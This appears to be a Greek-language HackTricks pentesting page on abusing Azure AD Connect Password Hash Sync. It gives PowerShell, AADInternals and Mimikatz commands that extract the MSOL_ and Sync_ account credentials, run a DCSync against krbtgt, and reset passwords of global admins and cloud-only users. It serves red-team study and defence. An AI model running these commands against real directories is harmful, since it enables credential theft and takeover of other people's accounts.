 # Az - PHS - Password Hash Sync

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

[Από τα έγγραφα:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Η συγχρονισμένη καταχώρηση κωδικών πρόσβασης** είναι μία από τις μεθόδους σύνδεσης που χρησιμοποιούνται για την επίτευξη υβριδικής ταυτότητας. **Το Azure AD Connect** συγχρονίζει ένα hash, του hash, του κωδικού πρόσβασης ενός χρήστη από μια τοπική εγκατάσταση Active Directory σε μια cloud-based Azure AD εγκατάσταση.

<figure><img src="../../../../images/image (173).png" alt=""><figcaption></figcaption></figure>

Είναι η **πιο κοινή μέθοδος** που χρησιμοποιούν οι εταιρείες για να συγχρονίσουν ένα τοπικό AD με το Azure AD.

Όλοι οι **χρήστες** και ένα **hash των κωδικών πρόσβασης** συγχρονίζονται από το τοπικό στο Azure AD. Ωστόσο, οι **κωδικοί πρόσβασης σε καθαρό κείμενο** ή οι **αρχικοί** **hashes** δεν αποστέλλονται στο Azure AD.\
Επιπλέον, οι **ενσωματωμένες** ομάδες ασφαλείας (όπως οι διαχειριστές τομέα...) **δεν συγχρονίζονται** στο Azure AD.

Ο **συγχρονισμός των hashes** συμβαίνει κάθε **2 λεπτά**. Ωστόσο, από προεπιλογή, η **λήξη κωδικού πρόσβασης** και η **λήξη λογαριασμού** **δεν συγχρονίζονται** στο Azure AD. Έτσι, ένας χρήστης του οποίου ο **τοπικός κωδικός πρόσβασης έχει λήξει** (δεν έχει αλλάξει) μπορεί να συνεχίσει να **έχει πρόσβαση σε πόρους Azure** χρησιμοποιώντας τον παλιό κωδικό πρόσβασης.

Όταν ένας τοπικός χρήστης θέλει να αποκτήσει πρόσβαση σε έναν πόρο Azure, η **αυθεντικοποίηση πραγματοποιείται στο Azure AD**.

**PHS** απαιτείται για δυνατότητες όπως η **Προστασία Ταυτότητας** και οι Υπηρεσίες Τομέα AAD.

## Pivoting

Όταν το PHS είναι ρυθμισμένο, μερικοί **προνομιακοί λογαριασμοί** δημιουργούνται αυτόματα:

- Ο λογαριασμός **`MSOL_<installationID>`** δημιουργείται αυτόματα στο τοπικό AD. Αυτός ο λογαριασμός έχει ρόλο **Λογαριασμών Συγχρονισμού Καταλόγου** (βλ. [τεκμηρίωση](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)) που σημαίνει ότι έχει **δικαιώματα αναπαραγωγής (DCSync) στο τοπικό AD**.
- Ένας λογαριασμός **`Sync_<name of on-prem ADConnect Server>_installationID`** δημιουργείται στο Azure AD. Αυτός ο λογαριασμός μπορεί να **επαναφέρει τον κωδικό πρόσβασης ΟΠΟΙΟΥΔΗΠΟΤΕ χρήστη** (συγχρονισμένου ή μόνο cloud) στο Azure AD.

Οι κωδικοί πρόσβασης των δύο προηγούμενων προνομιακών λογαριασμών **αποθηκεύονται σε έναν SQL server** στον διακομιστή όπου **είναι εγκατεστημένο το Azure AD Connect.** Οι διαχειριστές μπορούν να εξάγουν τους κωδικούς πρόσβασης αυτών των προνομιακών χρηστών σε καθαρό κείμενο.\
Η βάση δεδομένων βρίσκεται στο `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Είναι δυνατή η εξαγωγή της διαμόρφωσης από έναν από τους πίνακες, με έναν κρυπτογραφημένο:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

Η **κρυπτογραφημένη διαμόρφωση** είναι κρυπτογραφημένη με **DPAPI** και περιέχει τους **κωδικούς πρόσβασης του χρήστη `MSOL_*`** στο τοπικό AD και τον κωδικό πρόσβασης του **Sync\_\*** στο AzureAD. Επομένως, η παραβίαση αυτών επιτρέπει την ανύψωση προνομίων στο AD και στο AzureAD.

Μπορείτε να βρείτε μια [πλήρη επισκόπηση του πώς αποθηκεύονται και αποκρυπτογραφούνται αυτά τα διαπιστευτήρια σε αυτή την ομιλία](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Finding the **Azure AD connect server**

Εάν ο **διακομιστής όπου είναι εγκατεστημένο το Azure AD connect** είναι συνδεδεμένος σε τομέα (συνιστάται στα έγγραφα), είναι δυνατή η εύρεση του με:
```bash
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Κατάχρηση MSOL\_*
```bash
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
> [!CAUTION]
> Μπορείτε επίσης να χρησιμοποιήσετε [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) για να αποκτήσετε αυτά τα διαπιστευτήρια.

### Abusing Sync\_\*

Η παραβίαση του **`Sync_*`** λογαριασμού επιτρέπει την **επανεκκίνηση του κωδικού πρόσβασης** οποιουδήποτε χρήστη (συμπεριλαμβανομένων των Παγκόσμιων Διαχειριστών)
```bash
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Είναι επίσης δυνατό να **τροποποιηθούν οι κωδικοί πρόσβασης μόνο των χρηστών του cloud** (ακόμα και αν αυτό είναι απροσδόκητο)
```bash
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Είναι επίσης δυνατό να εκχυθεί ο κωδικός πρόσβασης αυτού του χρήστη.

> [!CAUTION]
> Μια άλλη επιλογή θα ήταν να **ανατεθούν προνομιακές άδειες σε έναν service principal**, τις οποίες ο χρήστης **Sync** έχει **δικαιώματα** να κάνει, και στη συνέχεια να **προσεγγιστεί αυτός ο service principal** ως τρόπος privesc.

### Seamless SSO

Είναι δυνατό να χρησιμοποιηθεί το Seamless SSO με το PHS, το οποίο είναι ευάλωτο σε άλλες καταχρήσεις. Ελέγξτε το εδώ:

{{#ref}}
seamless-sso.md
{{#endref}}

## Αναφορές

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
- [https://aadinternals.com/post/on-prem_admin/](https://aadinternals.com/post/on-prem_admin/)
- [https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19_AD_Im_in_your_cloud.pdf)
- [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{{#include ../../../../banners/hacktricks-training.md}}
